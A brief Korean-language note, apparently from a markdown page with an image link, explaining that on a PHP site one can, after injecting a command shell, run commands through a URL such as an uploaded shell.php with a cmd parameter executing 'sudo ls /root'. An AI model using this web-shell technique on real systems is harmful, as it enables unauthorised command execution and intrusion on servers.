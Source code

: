 
php로 만든 웹사이트일 경우 cmd주입 후
링크접근으로 cmd명령어 입력
http://your.site/uploads/shell.php?cmd=sudo ls /root 이런 식으로